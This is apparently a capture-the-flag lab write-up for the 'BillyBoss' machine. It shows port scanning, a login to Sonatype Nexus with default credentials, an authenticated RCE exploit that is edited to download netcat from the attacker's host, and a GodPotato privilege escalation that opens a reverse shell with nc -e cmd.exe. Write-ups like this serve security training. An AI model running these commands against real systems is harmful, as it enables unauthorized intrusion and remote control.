 # BillyBoss

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.61 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:35 +08
Nmap scan report for 192.168.175.61
Host is up (0.17s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

To avoid making this long:

* FTP was not interesting because anonymous access isn't allowed and guessing credentials is pointless.
* Port 80 had some application that wasn't working properly.
* SMB did not accept null credentials and had nothing there.
* The rest of the ports were pretty useless.

### Default Creds --> Nexus RCE

Port 8081 had a Nexus Repository Manager that was running:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

To exploit this, we first need to guess the credentials to login. `nexus:nexus` works for this one. Then, we need to grab the correct exploit:

```
$ searchsploit sonatype     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- ---------------------------------
```

Edit the exploit accordingly:

```
URL='http://192.168.175.61:8081'
CMD='cmd.exe /c powershell -c wget 192.168.45.164/nc64.exe -Outfile C:/Windows/Tasks/nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Then, we can

Then, we can execute the script once to download `nc.exe` onto the machine, and another to execute `nc.exe` to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersonatePrivilege --> Admin Shell

The user has `SeImpersonatePrivilege` enabled:

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

However, `PrintSpoofer.exe` wasn't working normally, so we probably need to use another method. Instead, we can use `GodPotato.exe` to do this:

{% embed url="https://github.com/BeichenDream/GodPotato/releases" %}

```
.\potato.exe -cmd "C:\Windows\Tasks\nc.exe 192.168.45.164 4444 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

For some reason, this user was unable to run `whoami`, so I just captured the flag instead:

![](<../../../.gitbook/assets/image (73).png>)
